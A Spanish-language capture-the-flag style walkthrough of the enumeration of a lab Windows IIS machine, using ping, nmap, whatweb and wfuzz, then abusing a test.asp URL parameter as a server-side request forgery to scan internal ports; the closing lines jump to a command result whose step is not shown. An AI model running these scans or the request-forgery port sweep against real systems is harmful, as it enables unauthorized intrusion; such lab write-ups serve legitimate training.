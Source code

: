 ## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.57
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.57 
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.57 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p62696 10.10.10.57 -oN targeted
```

| Puerto | Servicio   | Que se nos occure? | Que falta? |
| ------ | ---------- | ------------------ | ---------- |
| 62696  | http - IIS | Web, fuzzing, .asp |            |


### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.57:62696
```

Nada muy interresante

#### http-enum {-}

Lanzamos un web scan con nmap.

```bash
nmap --script http-enum -p62696 10.10.10.57 -oN webScan
```

No nos detecta nada

#### Checkear la web por puerto 62696 {-}

Con firefox navigamos en la web para ver lo que es.

La pagina esta under construction y poco mas.


#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.57:62696/WFUZZ
```

Encontramos un ruta `/backend` pero no se ve nada en firefox. Decidimos fuzzear con la extension `.asp`

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.57:62696/WFUZZ.asp
```

Aqui encontramos un fichero `test.asp` y navigando no dice que no encuentra el parametro `u` que tendria que ser un URL.
Intentamos ver si se connecta a nuestro servidor web

1. Creamos un servidor web

    ```bash
    python3 -m http.server 80
    ```

1. Intentamos connectar por la web 

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://10.10.14.8
    http://10.10.10.57:62696/test.asp?u=http://10.10.14.8/test
    ```

Aqui no passa nada. La idea aqui, como solo tiene un puerto avierto seria de explorar si tiene puerto privados usando localhost

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost
```

Aqui ya vemos que el puerto 80 interno de la maquina esta abierto. Decidimos descubrir los puertos abiertos de la maquina con WFUZZ


### Descubrimiento de los puertos abiertos con WFUZZ {-}

Wfuzz permite hacer rangos de numeros con el parametro `-z`

```bash
wfuzz -c -t 200 --hc=404 -z range,1-65535 http://10.10.10.57:62696/test.asp?u=http://localhost:FUZZ
```

Como nunca va a existir un codigo de estado 404, (porque el recurso existe), wfuzz no va a reportar como validas todas
las requests. Hay que lanzar una vez y occultar las palabra que son de 89

```bash
wfuzz -c -t 200 --hc=404 --hw=89 -z range,1-65535 http://10.10.10.57:62696/test.asp?u=http://localhost:FUZZ
```

Aqui vemos que solo el puerto 80 esta abierto.



Esto functiona. Pero no vemos en la web el output del commando. Solo vemos el codigo de estado (0 si el commando a functionado, 1 si no a functionado)

